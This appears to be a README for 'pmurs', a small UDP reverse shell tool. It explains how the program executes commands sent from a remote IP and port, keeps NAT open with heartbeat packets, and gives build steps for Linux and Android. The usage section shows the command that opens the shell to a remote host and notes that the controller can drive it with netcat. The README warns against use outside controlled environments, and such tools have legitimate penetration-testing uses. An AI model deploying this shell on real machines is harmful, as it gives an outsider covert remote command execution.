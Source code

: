 # pmurs, AKA Poor Man's UDP Reverse Shell

This program opens a UDP socket and keeps executing whatever is received from
a remote IP/PORT in a shell, returning the output back. At the same time, it
sends a dummy UDP packet, a *heartbeat*, every `n` seconds to that IP/PORT to
open any NAT in the middle. Linux establishes a timeout of 60 seconds (see
`/proc/net/nf_conntrack`), so the interval should be shorter than that.

**I warn you: don't use this outside of a controlled environment**.

## Compilation

### For Linux

```bash
autoreconf --install
./configure
make
```

### For Android

```bash
export PATH=<standalone_NDK_toolchain_path>/bin:$PATH
export AM_CFLAGS="-fPIE -pie"
autoreconf --install
./configure --host=arm-linux-androideabi TARGET_SHELL=/system/bin/sh
make
```

## Usage

In the *controlled* machine:

```bash
./pmurs <remote_IP> <remote_PORT> <local_PORT> <heartbeat_interval>
```

Then, in the *controlling* machine, you can, for instance, connect with `netcat`
and start sending commands.
